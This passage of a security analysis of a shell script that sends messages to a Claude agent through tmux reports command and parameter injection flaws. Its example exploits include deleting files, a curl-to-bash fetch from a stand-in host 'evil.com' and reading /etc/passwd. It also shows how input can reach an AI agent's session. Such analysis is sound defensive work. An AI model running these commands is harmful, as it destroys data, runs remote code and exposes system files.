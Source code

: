 # Security Analysis: send-claude-message.sh

## Executive Summary

The `send-claude-message.sh` script contains **CRITICAL** security vulnerabilities that allow for command injection, arbitrary code execution, and potential system compromise. The script passes user input directly to `tmux send-keys` without any validation or sanitization.

**Risk Level: HIGH** ⚠️

## How the Script Works

1. **Purpose**: Sends messages to a Claude agent running in a tmux window
2. **Usage**: `./send-claude-message.sh <session:window> <message>`
3. **Process**:
   - Takes two arguments: target window and message
   - Uses `tmux send-keys` to send the message to the specified window
   - Waits 0.5 seconds for UI registration
   - Sends Enter key to submit the message

## Critical Security Vulnerabilities

### 1. Command Injection via Message Parameter (CRITICAL)

**Vulnerability**: The script passes user input directly to `tmux send-keys` without any validation:
```bash
MESSAGE="$*"
tmux send-keys -t "$WINDOW" "$MESSAGE"
```

**Attack Vector**: An attacker can inject shell commands that will be executed in the target tmux window.

**Example Exploits**:
```bash
# Delete files
./send-claude-message.sh target:window "; rm -rf /tmp/*"

# Execute arbitrary commands
./send-claude-message.sh target:window "; curl evil.com/malware.sh | bash"

# Read sensitive files
./send-claude-message.sh target:window "; cat /etc/passwd"
```

### 2. Parameter Injection via Window Target (HIGH)

**Vulnerability**: The window parameter is not validated and passed directly to tmux:
```bash
WINDOW="$1"
tmux send-keys -t "$WINDOW" "$MESSAGE"
```
